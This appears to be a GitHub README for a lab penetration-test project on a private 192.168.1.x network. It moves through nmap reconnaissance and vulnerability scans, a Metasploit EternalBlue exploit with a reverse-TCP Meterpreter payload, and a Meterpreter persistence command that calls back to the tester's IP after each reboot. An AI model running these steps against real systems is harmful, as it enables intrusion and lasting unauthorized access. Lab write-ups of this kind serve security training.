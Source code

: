 # Simulated Penetration Test Using Kali Linux and Parrot OS

**Overview:**
This project demonstrates a comprehensive penetration test I conducted using Kali Linux and Parrot OS. The process involved network reconnaissance, vulnerability detection, and exploitation using industry-standard tools like Nmap, Metasploit, and Wireshark. The purpose of this project was to simulate a real-world penetration test to identify vulnerabilities and improve network security.

---

## **Project Details**

### **1. Environment Setup**
I began by setting up virtual environments for both **Kali Linux** and **Parrot OS** on VirtualBox. I used these platforms to perform the penetration testing, leveraging their built-in tools for network scanning, reconnaissance, and exploitation.

- Kali Linux download: [Kali Linux Download](https://www.kali.org/get-kali/#kali-bare-metal)
- Parrot OS download: [Parrot OS Download](https://www.parrotsec.org/download/)

---

### **2. Network Reconnaissance (Nmap)**

Using **Nmap**, I performed a full network scan to discover active devices, open ports, and services. This helped me map out the target network and identify potential vulnerabilities that could be exploited.

- **Ping Sweep:**
  ```bash
  nmap -sn 192.168.1.0/24
  ```
  This command identified all active hosts within the target subnet.
  
- **Port Scanning:**
  ```bash
  nmap -p 22,80,443 192.168.1.10
  ```
  This was used to check for open ports (SSH, HTTP, and HTTPS) on a specific host.

- **Service Version Scanning:**
  ```bash
  nmap -sV 192.168.1.10
  ```
  This provided detailed information on the versions of services running on open ports.

---

### **3. Vulnerability Detection (Nmap Scripting Engine)**

I leveraged the **Nmap Scripting Engine (NSE)** to detect potential vulnerabilities on the target machines.

- **Vulnerability Scan:**
  ```bash
  nmap --script vuln 192.168.1.10
  ```
  This script ran a scan to identify vulnerabilities such as unpatched software or misconfigurations.

- **Specific Vulnerability (SMB Exploit):**
  ```bash
  nmap --script smb-vuln-ms17-010 192.168.1.10
  ```
  This detected the infamous **EternalBlue (MS17-010)** vulnerability, commonly used in ransomware attacks.

---

### **4. Exploitation (Metasploit Framework)**

Using **Metasploit**, I exploited identified vulnerabilities to gain access to the target system. For example, I used the **EternalBlue exploit** to compromise a machine running a vulnerable SMB service.

- **Launching Metasploit:**
  ```bash
  msfconsole
  ```

- **Exploiting SMB Vulnerability (EternalBlue):**
  ```bash
  use exploit/windows/smb/ms17_010_eternalblue
  set RHOST 192.168.1.10
  set LHOST [My IP Address]
  set payload windows/meterpreter/reverse_tcp
  exploit
  ```

Once the exploit was successful, I gained control of the system through a **Meterpreter** shell.

---

### **5. Post-Exploitation Activities (Meterpreter)**

With control of the system, I performed various post-exploitation tasks to simulate real-world attack scenarios, such as extracting system information, capturing sensitive files, and establishing persistent access.

- **Checking System Info:**
  ```bash
  sysinfo
  ```

- **Navigating File System:**
  ```bash
  ls
  cd Documents
  ```

- **Maintaining Access (Persistence):**
  ```bash
  run persistence -X -i 10 -p 8080 -r [My IP Address]
  ```

This ensured that even after a reboot, the compromised system would automatically reconnect to my machine.

---

### **6. Reporting & Documentation**

After completing the penetration test, I generated a comprehensive report outlining all identified vulnerabilities, their potential impact, and recommended remediations. I used **Dradis Framework** for creating detailed reports and documenting each stage of the process.

---

## **Key Tools & Technologies:**

- **Operating Systems:** Kali Linux, Parrot OS
- **Tools:** Nmap, Metasploit, Wireshark, Msfvenom
- **Languages:** Bash scripting
- **Reporting Tool:** Dradis Framework

---

## **Lessons Learned:**

- **Network Scanning:** Learned how to effectively map networks and identify open ports using Nmap.
- **Exploitation Techniques:** Exploited vulnerabilities using Metasploit and custom payloads.
- **Post-Exploitation:** Gained hands-on experience in maintaining access and performing reconnaissance inside a compromised system.
- **Reporting:** Developed skills in documenting findings and providing remediation suggestions to strengthen network security.
